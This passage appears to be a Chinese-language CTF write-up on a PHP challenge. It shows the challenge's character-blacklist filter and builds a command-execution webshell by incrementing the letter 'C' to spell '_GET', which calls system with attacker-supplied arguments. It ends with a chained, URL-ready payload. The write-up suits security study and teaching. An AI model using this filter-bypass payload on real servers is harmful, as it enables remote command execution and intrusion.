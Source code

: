 ```php
    }
}
?>
```

加上参数 check 可以查看 phpinfo，几乎把所有的函数都给过滤了，经过 fuzz 后发现没有过滤 exec。

![image-20210809163006394](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809163006394.png)

访问 config.php 可以看到提示：

![image-20210809162810614](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809162810614.png)



```php
<?php
if(isset($_GET['🐶'])) {
    highlight_file(__FILE__);
}
function filter($payload) {
    if (preg_match("/[a-zA-BD-Z!@#%^&*:'\"|`~\\\\]|3|5|6|9/",$payload)) {
        return true;
    }
}
?>
<!-- ?🐶 --> 
```

过滤了字母数字可以考虑用不可见字符，但是这里过滤了位运算符、取反，没有过滤小括号，可以使用函数、没有过滤`$`、`+`、`=`、大写的C、下划线、数字1,2等，可以考虑自增运算构造 webshell。

```php
<?php
# ${_GET}{1}(${_GET}{2}) 传入 1=system 2=ls

$_=C;
$_++;$_++;
$__=$_; #E
$_++;$_++; # G
$___=$_;
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; # T
$_=_.$___.$__.$_; #_GET
${$_}{1}(${$_}{2});

```

将 payload 链接成一串。最后的 `;`需要去掉。

```php
1;$_=C;$_++;$_++;$__=$_;$_++;$_++;$___=$_;$_=(C/C.C)[0];$_++;$_++;$_++;$_++;$_++;$_++;$_=_.$___.$__.$_;${$_}{1}(${$_}{2})
```

url 编码后传入。
